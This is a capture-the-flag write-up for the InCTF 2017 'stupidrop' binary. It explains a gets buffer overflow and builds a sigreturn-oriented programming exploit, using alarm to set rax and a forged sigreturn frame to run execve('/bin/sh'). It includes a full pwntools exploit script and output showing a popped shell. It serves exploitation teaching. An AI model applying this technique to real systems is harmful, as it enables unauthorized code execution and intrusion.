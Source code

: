 # Inctf 2017 stupidrop

Let's take a look at the binary:

```
$    file stupidrop
stupidrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4f0ff8340bc3eead42d0f7b14535ee7c74a6ca7d, not stripped
$    pwn checksec stupidrop
[*] '/Hackery/pod/modules/srop/inctf17_stupidrop/stupidrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./stupidrop
15935728
```

So we can see that we are dealing with a `64` bit dynamically linked binary, with an NX stack. When we run it, it prompts us for input:

## Reversing

Looking at the main function, we can see an obvious bug:

```
undefined8 main(void)

{
  char input [48];
 
  setvbuf(stdout,(char *)0x0,2,0);
  alarm(0x20);
  gets(input);
  return 0;
}
```

So it uses `gets`, which gives us a buffer overflow (when we check the offset, we see it is `0x38`) that we can hit the saved return address with. Since there is no Stack Canary, we will be able to get code execution without a leak.

#### Writing /bin/sh

So for our exploit, we will be using an SROP attack to jump to a syscall, and make an `execve("/bin/sh", NULL, NULL)` call. To do that, we will need to write `/bin/sh\x00` somewhere to memory, at an address we know. Looking at the bss in Ghidra, we see that `0x601050` would probably be a good candidate. This is because it doesn't look like anything is stored there that would mess with what we are doing, we know it's address (thanks to no PIE), and that it is in a memory region that we can read and write to:

```
        00601050 00              undefined1 00h
        00601051 00              ??         00h
        00601052 00              ??         00h
        00601053 00              ??         00h
        00601054 00              ??         00h
        00601055 00              ??         00h
        00601056 00              ??         00h
        00601057 00              ??         00h
```

Now for how to write `/bin/sh\x00` to `0x601050`, we will call `gets`. The function `gets` is imported (we can see it under the list of imports in Ghidra), and since PIE isn't enabled we know it's address. So we will just call `gets` with `0x601050` as an argument (which we have the rop gadgets for), and write `/bin/sh\x00` to `0x601050`.

Getting the rop gadget:
```
$ python ROPgadget.py --binary stupidrop | grep "pop rdi"
0x00000000004006a3 : pop rdi ; ret
```

#### Writing Rax Value

So for the SROP syscall, we will need to set `rax` equal to `0xf` (since `rax` specifies what syscall will be made). However we don't really have any rop gadgets that we can use, which will set it. So we will be setting it by calling the `alarm` function, since return values are stored in the `rax` register.

The `alarm` function is used to specify how many seconds to wait before generating a `SIGALRM`. It takes a single argument, an unsigned int specifying the amount of seconds. If we call `alarm` once, it will set the number of seconds (which the return value will be `0`). If we call it a second time with an argument of `0`, it will cancel the pending alarm and return the number of seconds remaining. With this, we can call `alarm` once with an argument (stored) in the `rdi` register equal to `0xf`. Then proceeding that we can just call `alarm` again with the `rdi` register being equal to `0x0` and it will set `rax` to `0xf` as the return value.

#### SROP attack

Now that we have `rax` set to `0xf`, space on the stack to store our sigreturn frame, and we have a syscall rop gadget:

```
$ python ROPgadget.py --binary stupidrop | grep syscall
0x000000000040063e : syscall
```

So we have everything we need to make the sigreturn. So we have control over all of the registers. Since we have the syscall rop gadget and a pointer to `/bin/sh`, we can make the `execve("/bin/sh", NULL, NULL)` call. In order to get that, we will have the following registers set accordingly:

```
rip:  0x40063e (address of syscall rop gadget)
rax:  0x3b (specify execve syscall)
rdi:  0x601050 (pointer to "/bin/sh")
rsi:  0x0 (specify no arguments)
rdx:  0x0 (specify no enviornment variables)
```

That syscall will pop a shell for us. We will just store the frame right after the srop syscall, since that will put it at the top of the stack for the sigreturn (which is where it expects it).

## Exploit

Putting it all together, we get the following exploit:

```
from pwn import *

# Establish the target
target = process('./stupidrop')
gdb.attach(target, gdbscript='b *0x400289')

elf = ELF('stupidrop')

context.arch = "amd64"

# Establish needed gadgets
syscall = p64(0x40063e)
popRdi = p64(0x4006a3)

# Establish needed functions
gets = p64(elf.symbols['gets'])
alarm = p64(elf.symbols['alarm'])

# Establish address where we will write "/bin/sh"
binshAdr = p64(0x601050)

# Filler to return address
payload = ""
payload += "0"*0x38

# Use gets to write "/bin/sh" to 0x601050
payload += popRdi
payload += binshAdr
payload += gets


# Use alarm to set the rax register to 0xf
payload += popRdi
payload += p64(0xf)
payload += alarm
payload += popRdi
payload += p64(0x0)
payload += alarm

# Execute the SROP to make the execve call
frame = SigreturnFrame()

# Specify rip to point to the syscall instruction
frame.rip = 0x40063e

# Prep the registers for the execve syscall
frame.rax = 0x3b
frame.rdi = 0x601050
frame.rsi = 0x0
frame.rdx = 0x0

# Add the sigreturn frame to the payload, and make the syscall
payload += syscall
payload += str(frame)


# Send the payload
target.sendline(payload)

# Send "/bin/sh" to the gets call
raw_input()
target.sendline("/bin/sh\x00")


target.interactive()
```

When we run it:

```
$ python exploit.py
[+] Starting local process './stupidrop': pid 10520
[*] running in new terminal: /usr/bin/gdb -q  "./stupidrop" 10520 -x "/tmp/pwnyQjXEX.gdb"
[+] Waiting for debugger: Done
[*] '/Hackery/pod/modules/srop/inctf17_stupidrop/stupidrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

[*] Switching to interactive mode
$ w
 22:09:26 up  3:22,  1 user,  load average: 1.56, 1.80, 1.86
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               18:47   ?xdm?  15:46   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
ROPgadget.py  core  exploit.py    readme.md  stupidrop
```

Just like that, we popped a shell!